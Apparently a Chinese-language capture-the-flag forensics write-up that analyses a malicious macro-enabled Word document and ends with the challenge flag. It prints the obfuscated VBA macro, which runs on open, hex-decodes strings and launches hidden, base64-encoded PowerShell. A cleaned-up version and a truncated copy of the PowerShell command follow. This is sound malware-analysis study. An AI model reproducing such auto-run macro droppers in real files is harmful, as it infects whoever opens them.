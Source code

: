### Invitation

Microsoft Word打开*docm*文档，进入到宏编辑选项，找到宏代码，关键部分显示如下：

```vbscript
Sub Auto_Open()
Dim bomazpcuwhstlcd As String
Dim dbcsmjrdsqm As String
Dim gxiwcxqzqi As String
Dim uejdkidq As String
bomazpcuwhstlcd = odsuozldxufm("4c674167414367414941416b414641416377426f4147384162514246414673414e414264414373414a41427741484d4161414276414530415a51426241444d414d414264414373414a774234414363414b514167414367414941426241484d416441427941476b4162674248414630414f67413641476f41627742704147") & odsuozldxufm("34414b41416e") & _
[.....省略显示.....]
x = Shell(odsuozldxufm("50") & odsuozldxufm("4f5745525348454c4c2e6578") & odsuozldxufm("65202d6e6f65786974202d772068696464") & odsuozldxufm("656e202d656e6320") & bomazpcuwhstlcd & dbcsmjrdsqm & gxiwcxqzqi & uejdkidq, 1)
End Function


Private Function odsuozldxufm(ByVal gwndcowqyulk As String) As String
Dim cjzkqjwvtdxr As Long
For cjzkqjwvtdxr = 1 To Len(gwndcowqyulk) Step 2
odsuozldxufm = odsuozldxufm & Chr$(Val("&H" & Mid$(gwndcowqyulk, cjzkqjwvtdxr, 2)))
Next cjzkqjwvtdxr
End Function
```

经过整理，如下所示：

```vbscript
Sub Auto_Open()
Dim a As String
Dim c As String
Dim d As String
Dim e As String
a = b("4c674167414367414941416b414641416377426f41[...省略显示...]")
c = b("5151424e4147634151514172414545415177425a41[...省略显示...]")
d = b("56414235414841415a514167414330415467426841[...省略显示...]")
e = b("6441426441446f414f67425641484d415a51427941[...省略显示...]")
x = Shell(b("504f5745525348454c4c2e657865202d6e6f[...省略显示...]") & a & c & d & e, 1)
End Function


Private Function b(ByVal g As String) As String
Dim f As Long
For f = 1 To Len(g) Step 2
b = b & Chr$(Val("&H" & Mid$(g, f, 2)))
Next f
End Function
```

```shell
POWERSHELL.exe -noexit -w hidden -enc LgAgACgAIAAkAFAAcwBoAG8AbQBFAFsANABdACsAJABwAHMAaABvAE0AZQBbADMAMABdACsA[...省略显示...]
```

`CHTB{maldocs_are_the_new_meta}`

